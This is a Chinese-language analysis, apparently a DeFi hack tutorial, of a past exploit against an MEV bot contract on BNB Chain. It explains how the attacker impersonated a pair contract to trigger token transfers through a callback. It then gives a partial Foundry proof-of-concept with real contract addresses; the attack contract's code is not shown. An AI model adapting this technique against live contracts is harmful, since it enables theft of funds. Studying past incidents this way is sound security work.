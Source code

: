 有`varg0 = sender`，也就是发送者, `varg1=amount0`即`pair`中的`token0`，还有`varg2=amount1`即`pair`中的`token1`。（我们在这里只用设置`token0`），因为我们将伪装成`pair`。后面会有`0x10a(v0=varg3,varg2,varg1)`

再看`0x10a`函数：

先根据`amount0`和`amount1`选择`token0`还是`token1`（这里只用`token0`）

`    v5, v6 = address(v3).transfer(address(MEM[varg0.data]), varg1).gas(msg.gas);`此时后还会访问`MEM[varg0.data]`的`swap`函数以及`token1`函数。因为没有具体代码，很难再继续往下推进分析了。

写了一个`POC`示例，但还有很多不足，比如模拟的`EOA`账户不应该直接接受，应该由`Exploit`模拟后转账，但无伤大雅。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../interface.sol";

// @KeyInfo - Total Lost : ~140K US$
// Event : MEV BOT (BNB48)
// Analysis via https://explorer.phalcon.xyz/tx/bsc/0xd48758ef48d113b78a09f7b8c7cd663ad79e9965852e872fdfc92234c3e598d2
// Attacker : 0xee286554f8b315f0560a15b6f085ddad616d0601
// Attack Contract : 0x5cb11ce550a2e6c24ebfc8df86c5757b596e69c1
// Vulnerable Contract : 0x64dd59d6c7f09dc05b472ce5cb961b6e10106e1d (MEV BOT)
// Attack Tx : https://bscscan.com/tx/0xd48758ef48d113b78a09f7b8c7cd663ad79e9965852e872fdfc92234c3e598d2

// @Info
// Involve USDT, WBNB, BUSD, USDC for MEV_BOT

// @Analysis
// DefiHackLab : https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/04_write_your_own_poc/

address constant USDT_ADDRESS = 0x55d398326f99059fF775485246999027B3197955;
address constant WBNB_ADDRESS = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
address constant BUSD_ADDRESS = 0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56;
address constant USDC_ADDRESS = 0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d;

address constant TARGET_MEV = 0x64dD59D6C7f09dc05B472ce5CB961b6E10106E1d;

contract MEVBOTAttacker is Test { // EOA Simulation

    function setUp() public {
        vm.createSelectFork("bsc",21297409); // Go back to staking time
    }

    function testExploit() public {
        Exploit exploit = new Exploit();
        emit log_named_decimal_uint("[Start] Attacker USDT Balance", IERC20(USDT_ADDRESS).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker WBNB Balance", IERC20(WBNB_ADDRESS).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker BUSD Balance", IERC20(BUSD_ADDRESS).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker USDC Balance", IERC20(USDC_ADDRESS).balanceOf(address(this)), 18);
        console.log("starting exploiting ...");

        exploit.attack();

        console.log("Ending exploiting ...");
        emit log_named_decimal_uint("[End] Attacker USDT Balance", IERC20(USDT_ADDRESS).balanceOf(address(this)), 18);
```
